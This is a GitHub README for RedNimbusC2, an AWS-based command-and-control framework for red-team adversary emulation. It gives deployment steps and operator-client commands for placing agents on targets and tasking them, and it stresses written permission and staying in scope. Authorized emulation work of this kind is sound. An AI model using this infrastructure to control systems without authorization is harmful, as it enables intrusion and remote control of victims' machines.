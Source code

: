 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## Demo

![](images/RedNimbusC2-Demo.gif)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not stable at this time.

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [AWS SDK for Python (Boto3)](https://aws.amazon.com/sdk-for-python/)
4. [Go](https://go.dev)
5. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
6. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
7. [Make](https://www.gnu.org/software/make/)
8. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# optionally deploy to a specific AWS account like so:
# make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```

3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

TBD

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```
